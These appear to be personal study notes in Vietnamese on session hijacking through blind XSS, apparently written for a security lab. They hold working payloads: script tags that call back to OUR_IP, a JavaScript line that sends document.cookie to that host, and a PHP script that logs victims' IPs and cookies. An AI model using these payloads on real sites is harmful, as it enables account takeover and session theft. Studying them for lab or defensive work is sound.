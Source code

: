 # Session Hijacking 
chiếm quyền đăng nhập victim mà ko cần mật khẩu

Web app lưu session trong cookie -> lấy cookie thì đăng nhập như victim

Blind XSS - payload ko hiển thị ngay cho attacker mà được admin hoặc hệ thống khác render lại (contact form, support ticket)

Attacker ko thấy kết quả -> callback về server của mình để xác nhận payload chạy

**Cách phát hiện**
 Host webserver(php -s 0.0.0.0:80)
 Inject payloads dạng remote script để gọi về máy:
 ```html
 <script src="http://OUR_IP/username"></script>
 ```
 Nếu thấy request /username -> field username bị dính XSS

 Test nhiều payloads khác nhau (PayloadsAlltheThings) -> tìm payload hoạt động

 **exploit**
 tạo script.js để steal cookie
 ```javascript
 new Image().src='http://OUR_IP/index.php?c='+document.cookie;
 ```
 inject payload:
 ```html
 <script src="http://OUR_IP/script.></script>
 ```
 Dùng php script để log cookie:
 ```php
 if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $cookie) {
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: ".urldecode($cookie)."\n");
        fclose($file);
    }
}
 ```
 Sau khi lấy cookie, mở Developer tools nhập cookie và refress và login ok

 Notes:
 - Ko phải field nào cũng dính XSS
 - Passwor thường hash -> bỏ qua
 - Email bị validate cả backend -> bỏ qua 
 - test fullname,username,website,message
 - Blind XSS thường xuất hiện ở Admin panel hoặc form review.


**question**
"><script src=://OUR_IP></script>